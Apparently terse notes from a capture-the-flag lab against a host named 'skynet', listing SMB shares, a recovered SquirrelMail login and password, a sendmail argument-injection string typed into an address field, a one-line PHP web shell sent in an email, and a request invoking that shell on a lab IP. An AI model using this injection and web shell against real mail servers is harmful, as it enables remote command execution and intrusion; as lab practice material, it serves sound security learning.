 Found the following remote shares:

print$          Disk      Printer Drivers
anonymous       Disk      Skynet Anonymous Share
milesdyson      Disk      Miles Dyson Personal Share
IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))

Found correct credentials for squirrelmail:
milesdyson:cyborg007haloterminator

`z@z -oQ/tmp/ -X/var/www/html/sh php` - Writing this on the address field in personal information.

Sending email with `<?php system(@$_GET['c']); ?>` in the details field.

Attempting to access http://10.10.186.31/squirrelmail/sh.php?c=uname -a